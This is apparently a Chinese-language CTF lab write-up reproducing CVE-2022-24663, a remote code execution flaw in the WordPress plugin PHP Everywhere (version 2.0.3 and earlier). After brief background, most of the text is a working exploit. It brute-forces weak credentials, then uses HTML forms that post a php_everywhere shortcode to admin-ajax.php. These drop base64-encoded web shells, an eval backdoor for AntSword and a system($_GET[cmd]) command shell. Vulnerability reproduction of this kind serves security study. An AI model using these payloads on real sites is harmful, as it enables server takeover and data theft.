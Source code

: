 ## 1. 漏洞介绍  

远程代码执行漏洞，任何订阅者都可以利用该漏洞发送带有“短代码”参数设置为 PHP Everywhere 的请求，并在站点上执行任意 PHP 代码。P.S. 存在常见用户名低权限用户弱口令
- `WordPress是Wordpress`基金会的一套使用[**php**](https://it.cha138.com/php/)语言开发的博客平台。该平台支持在PHP和[**mysql**](https://it.cha138.com/mysql/)的服务器上架设个人博客网站。
- `WordPress plugin`是WordPress开源的一个应用插件。
- `WordPress plugin PHP Everywhere` 存在代码注入漏洞，
- `PHP Everywhere<= 2.0.3`包含了允许通过`WordPress短代码`执行PHP代码片段的功能，任何经过身份验证的用户都可以使用。
## 2. 影响版本

该漏洞源于`PHP Everywhere 2.0.3及以下版本`存在多个远程代码执行漏洞。
## 3. 漏洞复现

漏洞的复现和 CVE-2022-26965 有点相似，都是利用服务端会执行 PHP 代码，为此既可以写个木马通过蚁剑连接获取 flag ，也可以写个远程执行命令的 PHP 文件。

首先，由于提示存在弱口令，故用 burp suite 抓包爆破得登录账号密码为 **test/test** 。
### 3.1. 写马

```php
<?php @eval($_POST["shell"]) ?>
/*base64 编码后*/
PD9waHAgQGV2YWwoJF9QT1NUWyJzaGVsbCJdKSA/Pg==
```
- 登录 wordpress 后将下面代码插入任意页面，并点击 **Execute** 即可。
```html
<form action="http://eci-2z9se9cvra1hc6r9iirp.cloudeci1.ichunqiu.com/wp-admin/admin-ajax.php" method="post">
      <input name="action" value="parse-media-shortcode" />
      <textarea name="shortcode">[php_everywhere] <?php file_put_contents("/var/www/html/shell.php",base64_decode("PD9waHAgQGV2YWwoJF9QT1NUWyJzaGVsbCJdKSA/Pg==")); ?>[/php_everywhere]</textarea>
      <input type="submit" value="Execute" />
</form>
```
- 注意要将 URL 换成自己开启环境的
- 示例：
![CVE-2022-24663-picture-1.jpg](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/CVE-2022-24663-picture-1.jpg)

![CVE-2022-24663-picture-2.jpg](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/CVE-2022-24663-picture-2.jpg)

![CVE-2022-24663-picture-3.jpg](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/CVE-2022-24663-picture-3.jpg)

![CVE-2022-24663-picture-4.jpg](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/CVE-2022-24663-picture-4.jpg)

![CVE-2022-24663-picture-5.jpg](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/CVE-2022-24663-picture-5.jpg)
### 3.2. RCE

```php
<?php system($_GET[cmd]);?>
PD9waHAgc3lzdGVtKCRfR0VUW2NtZF0pOz8+
```

```html
<form action="http://eci-2z9se9cvra1hc6r9iirp.cloudeci1.ichunqiu.com/wp-admin/admin-ajax.php" method="post">
      <input name="action" value="parse-media-shortcode" />
      <textarea name="shortcode">[php_everywhere] <?php file_put_contents("/var/www/html/cmd.php",base64_decode("PD9waHAgc3lzdGVtKCRfR0VUW2NtZF0pOz8+")); ?>[/php_everywhere]</textarea>
      <input type="submit" value="Execute" />
</form>
```

操作基本同上，最后获取 flag 示例如下：
![CVE-2022-24663-picture-6.jpg](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/CVE-2022-24663-picture-6.jpg)